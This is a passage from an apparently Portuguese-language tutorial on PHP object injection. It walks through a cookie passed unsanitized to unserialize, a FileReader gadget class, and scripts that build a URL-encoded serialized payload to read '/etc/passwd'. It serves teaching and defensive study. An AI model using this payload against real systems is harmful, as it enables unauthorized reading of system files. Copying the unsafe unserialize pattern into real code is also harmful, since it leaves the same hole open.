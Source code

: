 ```php
        </div>
```

Aqui nosso cookie `extra_themes` é deserializado de forma nua e crua:

```php
<?= isset($_COOKIE['extra_themes']) ? '<p>Extra themes: ' . unserialize($_COOKIE['extra_themes']) . '</p>' : '' ?>
```

Com essa informação em mãos, que nosso dado é serializado e passa por `unserialize`, agora basta achar um vetor de entrada.
Então procuramos no sistema algumas classes que fazem sentido, que podem ser utilizadas como vetor e achamos a seguinte classe:

```php
class FileReader {
	protected $fileName;

	public function __toString()
	{
		if (!file_exists($this->filename)) {
			return "File don't exists";
		}

		return file_get_contents($this->filename);
	}
}
```

A classe basicamente le o conteúdo do arquivo presente na propriedade `$this->filename`.

Tendo conhecimento da classe acima, poderiamos criar um simples script dentro do projeto para passar valores arbitrários que serão lidos durante o ato de deserialization:

```php
require_once . '/vendor/autoload.php';

$obj = new App/FileReader();
$obj->filename = '/etc/passwd';
echo serialize($obj);
```

Aqui ainda fazemos o require do autoload, o que na verdade nem é necessário! Não precisamos desse arquivo funcional, apenas precisamos que a classe existe no sistema alvo.

o payload acima resulta na seguinte string:


```
O:14:"App\FileReader":2:{s:11:"*fileName";N;s:8:"filename";s:11:"/etc/passwd";}
```

Existe um ponto onde na representação dessa string teriamos nullbytes (Assunto para outro post), então um payload ainda mais funcional para ser enviado em uma requisição seria:

```php
<?php

$obj = new App\FileReader();
$obj->filename = '/etc/passwd';
$serialized = serialize($obj);

$keys = str_split("%\x00\n\r\t+;");
$values = array_map('urlencode', $keys);
$serialized = str_replace($keys, $values, $serialized);
echo $serialized;
```


[serialize-function]: https://www.php.net/manual/en/function.serialize.php
[unserialize-function]: https://www.php.net/manual/en/function.unserialize.php
[wakeup-method]: https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup
[destruct-method]: https://www.php.net/manual/pt_BR/language.oop5.decon.php#object.destruct
[owasp]: https://owasp.org
[tostring-method]: https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.tostring
[local-file-inclusion]:  https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[phpggc]:  https://github.com/ambionics/phpggc
[owasp-poo]:  https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[code-reuse-paper]:  https://www.ei.ruhr-uni-bochum.de/media/emma/veroeffentlichungen/2014/09/10/POPChainGeneration-CCS14.pdf